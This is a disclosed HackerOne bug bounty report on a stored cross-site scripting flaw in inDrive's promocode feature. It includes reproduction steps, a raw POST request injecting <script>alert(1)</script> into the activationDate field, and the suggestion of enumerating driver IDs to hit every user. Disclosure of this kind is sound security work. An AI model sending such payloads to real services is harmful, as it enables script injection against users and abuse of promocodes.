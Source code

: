 # Stored XSS on promo.indrive.com

## Report Details
- **Report ID**: 2051085
- **URL**: https://hackerone.com/reports/2051085
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-07-05T12:45:19.388Z
- **Disclosed**: 2023-08-28T13:29:44.397Z

## Reporter
- **Username**: kristoferent
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: indrive

## Vulnerability Information
## Summary:
The functionality on https://promo.indrive.com/promocodes allows drivers to find and activate promocodes. It requires a driver ID. When user activates their promocode, the browser makes a POST request to https://id.indrive.com/api/spreadsheet/promocodes with parameters **id** (driver id) and **activationDate** (the date of the promocode activation). It is possible for an attacker to set parameter **activationDate** value to an XSS payload. When a user inputs the same ID when looking for promocodes, the XSS payload will trigger, executing arbitrary JavaScript code in the victims's browser.

## Steps To Reproduce:
1. Make a POST request to https://id.indrive.com/api/spreadsheet/promocodes with the following body: 
```
{"id":"4","activationDate":"<script>alert(1)</script>"}
```
{F2470829}
The driver ID value of **4** is used, but the attacker can enumerate through valid driver IDs to inject the payload into every user's promocode.
2. Go to https://promo.indrive.com/promocodes
3. Input a driver ID (in my example **4**) and click "Проверить ID". The XSS payload will be triggered
{F2470832}


## Supporting Material/References:
Full POST Request:
```
POST /api/spreadsheet/promocodes HTTP/1.1
Host: id.indrive.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 55
Origin: https://promo.indrive.com
Referer: https://promo.indrive.com/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
Te: trailers
Connection: close

{"id":"4","activationDate":"<script>alert(1)</script>"}
```

## Impact

This vulnerability allows an attacker to execute arbitrary JavaScript code in any user's browser.
Despite this being a retired functionality, an attacker could trick users to try and get a promocode.
This could also potentially make promocodes usable infinite amount of times by directly making POST requests to renew the code every 24 hours.

## Attachments
- image.png
- image.png
